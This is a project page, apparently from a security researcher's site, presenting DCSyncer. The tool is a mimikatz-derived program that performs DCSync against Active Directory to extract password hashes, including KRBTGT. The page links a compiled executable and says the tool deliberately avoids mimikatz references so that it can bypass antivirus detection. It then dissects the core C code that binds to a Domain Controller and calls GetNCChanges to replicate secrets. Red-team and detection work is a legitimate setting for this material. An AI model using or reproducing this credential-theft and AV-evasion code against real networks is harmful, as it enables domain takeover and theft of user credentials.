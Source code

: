 ```yaml
---
layout: page
title: DCSyncer
description: Tool derived from mimikatz that performs DCSync operation
github: https://github.com/notsoshant/DCSyncer
download: https://github.com/notsoshant/DCSyncer/releases/download/v1.0/DCSyncer-x64.exe
ext-js: https://buttons.github.io/buttons.js
---
```


[Follow @notsoshant](https://github.com/notsoshant){:class="github-button" data-size="large" aria-label="Follow @notsoshant"}
[notsoshant/DCSyncer]({{ page.github }}){:class="github-button" data-icon="octicon-repo-forked" data-size="large" aria-label="View notsoshant/DCSyncer on GitHub"}
[Download]({{ page.download }}){:class="github-button" data-icon="octicon-download" data-size="large" aria-label="Download notsoshant/DCSyncer on GitHub"}

DCSyncer is a tool that performs DCSync operation. DCSync is a method to extract credentials, including that of KRBTGT, from a remote system by simulating behavior of a Domain Controller. This method is very powerful as you don't need any command execution _on_ the Domain Controller. You also don't need to be a Domain Admin to perform this operation, you need a user with _Replicating Directory Changes_ and _Replicating Directory Changes All_ permissions. For more details on DCSync attack and its prevention, read [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729).

Huge thanks to [Sumit Verma](https://www.linkedin.com/in/sumit-verma-125576129/) for coming up with the idea behind the tool!

![Image](/img/tools/dcsyncer/dcsyncer-1.png){: .center-block :}

![Image](/img/tools/dcsyncer/dcsyncer-2.png){: .center-block :}

## Mimikatz and need for DCSyncer

[Mimikatz](https://github.com/gentilkiwi/mimikatz) comes with capability to perform DCSync operation. [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) can also perform this operation. Antivirus detection for these tools are strong. But AVs don't often do it right, most of the times they rely on some string or pattern matching that can be easily bypassed by recompiling the tool with few modifications.

Idea behind this tool was to show that we can't entirely rely on AVs to keep us secure. This is an attempt to extract only the code piece relevant to DCSync from mimikatz's huge, feature-rich codebase. This tool, though extracted from mimikatz, tries to avoid any reference to it so that it can bypass some well known AVs.

## Working

A DCSync operation uses [Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) to simulate a Domain Controller. It uses the [`GetNCChanges`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) function to do so. DCSyncer uses code extracted mainly from [RPC](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc.c), [DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_drsr.c) and [MS-DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_ms-drsr_c.c) modules of mimikatz. The main DCSync function is replica of mimikatz's, but I've written it manually to understand each and every step involved in the process.

Let's dissect the main DCSync function to see how it works.

#### Get the Domain Info and the DC

```c
getCurrentDomainInfo(&pDomainInfo);
szDomain = pDomainInfo->DnsDomainName.Buffer;
PRINT_INFO(L"Domain would be %s\n", szDomain);

getDC(szDomain, DS_DIRECTORY_SERVICE_REQUIRED, &szDc);
PRINT_INFO(L"DC would be %s\n", szDc);
```

`getCurrentDomainInfo()` is calling [`LsaQueryInformationPolicy()`](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaqueryinformationpolicy) in background to get the `PolicyDnsDomainInformation` which retrieves DNS information. `getDc()` would use Domain extracted from DNS information and call [`DsGetDcName()`](https://docs.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnamea) in to get the DC.

#### Create RPC Binding

```c
szService = L"ldap";
RtlGetNtVersionNumbers(&pMajor, &pMinor, &pBuild);

createBinding(NULL, L"ncacn_ip_tcp", szDc, NULL, szService, TRUE, (pMajor < 6) ? RPC_C_AUTHN_GSS_KERBEROS : RPC_C_AUTHN_GSS_NEGOTIATE, NULL, RPC_C_IMP_LEVEL_DEFAULT, &hBinding, RpcSecurityCallback);

getDomainAndUserInfos(&hBinding, szDc, szDomain, &getChReq.V8.uuidDsaObjDest, szUser, szGuid, &dsName.Guid, &DrsExtensionsInt);
```

`createBinding()` is taken from RPC module of mimikatz which will create a RPC bind to the DC. `getDomainAndUserInfos()` will first create a DRS handle using [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) and then use [`IDL_DRSDomainControllerInfo()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/668abdc8-1db7-4104-9dea-feab05ff1736) and [`IDL_DRSCrackNames()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/9b4bfb44-6656-4404-bcc8-dc88111658b3) to retrieve information about DC.

#### Preparing for GetNCChanges

```c
getDCBind(&hBinding, &getChReq.V8.uuidDsaObjDest, &hDrs, &DrsExtensionsInt);

getChReq.V8.pNC = &dsName;
getChReq.V8.ulFlags = DRS_INIT_SYNC | DRS_WRIT_REP | DRS_NEVER_SYNCED | DRS_FULL_SYNC_NOW | DRS_SYNC_URGENT;
getChReq.V8.cMaxObjects = (allData ? 1000 : 1);
getChReq.V8.cMaxBytes = 0x00a00000; // 10M
getChReq.V8.ulExtendedOp = (allData ? 0 : EXOP_REPL_OBJ);
getChReq.V8.pPartialAttrSet = (PARTIAL_ATTR_VECTOR_V1_EXT*)MIDL_user_allocate(sizeof(PARTIAL_ATTR_VECTOR_V1_EXT) + sizeof(ATTRTYP) * ((allData ? ARRAYSIZE(dcsync_oids_export) : ARRAYSIZE(dcsync_oids)) - 1));
getChReq.V8.pPartialAttrSet->dwVersion = 1;
getChReq.V8.pPartialAttrSet->dwReserved1 = 0;

if (allData)
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids_export);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids_export[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
else
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
```

`getDCBind()` will call [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) again, this time with UUID obtained from `getDomainAndUserInfos()` to create a handle that will be used by `GetNCChanges()`. Lines that follow are just setting up other parameters for the request message.

#### Calling GetNCChanges and decrypting response

```c
do
{
    RtlZeroMemory(&getChRep, sizeof(DRS_MSG_GETCHGREPLY));
    drsStatus = IDL_DRSGetNCChanges(hDrs, 8, &getChReq, &dwOutVersion, &getChRep);
    if (drsStatus == 0)
    {
        if (dwOutVersion == 6 && (allData || getChRep.V6.cNumObjects == 1))
        {
            if (ProcessGetNCChangesReply(&getChRep.V6.PrefixTableSrc, getChRep.V6.pObjects))
            {
                ...
            }
            else
            ...
        }
        ...
    }
}
while (getChRep.V6.fMoreData);
```

Finally, a call to [`IDL_DRSGetNCChanges()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894). Lines that follow are decrypting the response of this call and printing the output.
